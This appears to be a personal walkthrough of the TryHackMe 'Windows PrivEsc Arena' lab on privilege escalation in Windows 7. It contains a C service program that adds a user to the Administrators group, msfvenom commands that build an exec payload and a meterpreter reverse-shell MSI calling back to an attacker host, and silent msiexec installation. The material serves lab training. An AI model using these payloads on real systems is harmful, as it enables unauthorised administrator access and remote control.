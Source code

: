 # THM - Windows PrivEsc Arena

Students will learn how to escalate privileges using a very vulnerable Windows 7 VM. RDP is open. Your credentials are user:password321

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

connect rdp

```bash
rdesktop 10.10.50.130 -g 95%
```

PowerUp

```powershell
powershell.exe -ep bypass 
import-module powerup.p1
invoke-AllChecks
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

```
lcacls.exe <path.exe>
```

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption><p>"C:\Program Files\File Permissions Service\filepermservice.exe"</p></figcaption></figure>

Code C to make privesc in win7

### Service Escalation - Registry

#### Detection

```powershell
 Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Notice that the output suggests that user belong to “**NT** **AUTHORITY**\\**INTERACTIVE**” has “**FullContol**” permission over the registry key.
{% endhint %}

#### Exploitation

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
        Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
}
```

```powershell
sc start filepermsvc
```

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

To Delete user from group

```powershell
net localgroup Administrators user /DELETE 
```

Escalation va Unquoted Path

```bash
msfvenom -p windows/exec CMD='net localgroup Administrators user /add ' -f exe -o /home/h3ckt0r/tool/privesc/common.exe
updog -p 8080
```

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption><p>nqoted path</p></figcaption></figure>

### Registry Escalation - AlwaysInstallElevated

> 1.Open command prompt and type: **reg query**\
> **HKLM\Software\Policies\Microsoft\Windows\Installer** \
> 2.From the output, notice that “**AlwaysInstallElevated**” value is **1**
>
> <img src="../../../.gitbook/assets/image (161).png" alt="" data-size="original">

{% code overflow="wrap" %}
```
 msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.0.213 -f msi -o setup.msi
```
{% endcode %}

1.Place ‘setup.msi’ in ‘C:\\**Temp**’.\
2.Open command prompt and type: **msiexec /quiet /qn /i C:\Temp\setup.msi**

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

### Service Escalation - Executable Files



<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Service Escalation - DLL Hijacking



<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>
